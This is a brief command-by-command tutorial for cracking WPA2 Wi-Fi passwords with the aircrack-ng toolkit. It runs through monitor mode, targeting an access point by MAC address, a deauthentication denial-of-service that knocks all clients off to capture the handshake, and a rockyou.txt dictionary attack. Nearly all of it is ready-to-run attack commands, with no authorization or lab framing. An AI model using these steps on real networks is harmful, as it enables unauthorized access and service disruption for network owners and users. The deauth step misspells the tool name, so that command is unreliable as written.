 # Performing WPA2 Password Cracking with AirCrack Toolkit

1.  Killing wireless interface blocking processes
```
airmon-ng check kill
```

2. Switching wireless interface into monitoring mode
```
airmon-ng start wlan0
```

3.  Sniffing wireless traffic on all channels
```
airodump-ng wlan0mon
```

4. Sniffing wireless traffic on selected channel (channel 1 in following example)
```
airodump-ng -c 1 wlan0mon
```

5. Sniffing wireless traffic on selected channel and selected AP MAC and writing data to a file (OURFILE)
```
airodump-ng -w OURFILE -c 1 --bssid 1c:1d:86:b6:c4:e0 wlan0mon
```

6. Performing DoS attack to disconnect all clients connected to the provided Access Point (AP)
    - Run the following command in new terminal window in parallel with airodump-ng command
    - Stop the command execution after a few packets and check the airodump-ng window if Handshake is captured.
```
airelay-ng -0 0 -a 1c:1d:86:b6:c4:e0 wlan0mon
```

7. If the handshake is captured successfully, we will need a wordlist to perform dictionary attacks. Kali Linux provides with a wordlist with more than 10 million passwords called rockyou.txt which is compressed in .gz. You can decompress the file with following command
    - If decompressed once, below command is not required and won't work.
```
gunzip /usr/share/wordlists/rockyou.txt
```

8. After the wordlist is decompressed, we will use aircrack-ng for cracking the WPA2 password by providing the captured handshake .cap file and wordlist as input.
```
aircrack-ng OURFILE-01.cap -w /usr/share/wordlists/rockyou.txt
```

Thus, you will successfully be able to crack the Wi-Fi WPA2 Password.

